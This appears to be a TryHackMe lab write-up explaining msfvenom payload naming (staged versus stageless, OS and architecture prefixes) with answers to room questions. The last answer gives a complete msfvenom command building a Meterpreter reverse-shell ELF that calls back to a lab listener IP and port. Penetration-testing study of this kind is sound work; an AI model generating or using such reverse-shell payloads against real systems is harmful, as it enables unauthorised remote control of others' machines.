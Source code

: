 
*Payload Naming Conventions*

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

`<OS>/<arch>/<payload>`  
  
For example:

`linux/x86/shell_reverse_tcp`

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

`windows/shell_reverse_tcp   `

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.

In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a *stageless* payload. How? Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:

`shell/reverse_tcp`

As staged payloads are denoted with another forward slash (`/`).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

---

Aside from the `msfconsole` man page, the other important thing to note when working with msfvenom is:

`msfvenom --list payloads`

This can be used to list all available payloads, which can then be piped into `grep` to search for a specific set of payloads. For example:

![](https://i.imgur.com/iFO6ydX.png align="left")

This gives us a full set of Linux meterpreter payloads for 32bit targets.

### Answer the questions below

1. Generate a staged reverse shell for a 64 bit Windows target, in a `.exe` format using your TryHackMe tun0 IP address and a chosen port.
    
2. Which symbol is used to show that a shell is stageless? `_`
    
3. What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell` :- `msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`
    